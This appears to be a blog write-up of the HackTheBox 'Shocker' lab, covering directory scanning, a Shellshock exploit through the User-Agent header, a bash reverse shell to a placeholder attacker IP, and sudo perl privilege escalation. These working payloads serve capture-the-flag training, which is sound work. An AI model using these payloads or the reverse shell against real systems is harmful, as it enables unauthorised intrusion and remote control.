 ```yaml
---
layout: post
title:	"Shocker Writeup"
date:	2018-09-13 03:00:00
categories:
    - writeups
tags:
    - ctf
    - boot2root
    - hackthebox
---
```

<head>
	<title> Shocker Writeup | HackTheBox </title>
</head>
<title> Shocker Writeup </title>
![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/logo.png)

## i. Port Scan

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/ports.png)

## ii. Enumeration / Low Priv Shell

Starting off with http, browsing to host:

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/http.png)

Nothing interesting, let's see if we can find any hidden directories using `gobuster`

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/gobuster1.png)

Wait... nothing found? That's because of two reasons: 
- gobuster by default does not show pages with 403 Status Codes (Forbidden). 
- the way that this apache is setup is that it'll report directories that do not have a / appended as 404.

Luckily for us, gobuster has those switches built-in. `-f to append directory flashes, and -s <status> for custom status codes`

Running gobuster with those two options:

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/gobuster2.png)

~~~
$ gobuster -u http://10.10.10.56 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 25 -f -s 403
~~~

Seems like we found a new directory, `cgi-bin`, navigating to it we get the 403 mentioned before.

Let's see if we can use gobuster to find any files in the directory. Typically there are .sh files in /cgi-bin/, so we can use `-x` in gobuster for custom extensions.

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/gobuster3.png)

Navigating to user.sh:

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/download.png)

Downloading the file, and looking at the contents, we can see that the script is executing uptime when being called:

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/uptime.png)

Let's try testing if the page is vulnerable to Shellshock since bash is involved.

~~~
Two great reads on how Shellshock works & how it's exploited:
https://www.symantec.com/connect/blogs/shellshock-all-you-need-know-about-bash-bug-vulnerability
https://security.stackexchange.com/questions/68122/what-is-a-specific-example-of-how-the-shellshock-bash-bug-could-be-exploited
~~~

Using Burp's repeater would make this easier, as we do not have to download the file every time to see the output:

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/burp1.png)

The payload that I'm going to be using: 
~~~
() { :; }; echo; /bin/ls

If you want to execute another command, make sure you include the full path. ($ which command)
~~~

This will list the contents in the directory. I'm going to insert the payload into User-Agents. (You can use several HTTP-Headers such as User-Agent, Cookie, Accept, etc.)

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/shellshock.png)

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/response.png)

Looking at the response, we see that it prints out the directory contents, which means we have `command execution`

In order to get a low-privilege shell, I am going to use the bash reverse shell one-liner.

~~~
$ bash -i >& /dev/tcp/YOURIP/PORT 0>&1

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
~~~

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/request2.png)

Looking at our listener:

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/revshell.png)

## iii. Privilege Escalation

While enumerating the system, I checked `sudo -l` to see what commands can be ran as root:

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/sudo.png)

We can run perl as root without a password.

Using a perl one-liner to spawn a shell with root privileges.

~~~
perl —e 'exec "/bin/sh";'

https://netsec.ws/?p=337
~~~
You won't see any output at first, but try executing a command.

![Screenshot]({{ site.baseurl }}/images/posts/2017/shocker/shell.png)

##. iv. Conclusion

This box is great practice for Shellshock. Though, it's hard to find it in the wild nowadays, it's still a good idea to add it to your foundation.

~~~
Sources / Links:
[0]: https://www.symantec.com/connect/blogs/shellshock-all-you-need-know-about-bash-bug-vulnerability
[1]: https://security.stackexchange.com/questions/68122/what-is-a-specific-example-of-how-the-shellshock-bash-bug-could-be-exploited
[2]: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
[3]: https://netsec.ws/?p=337
~~~


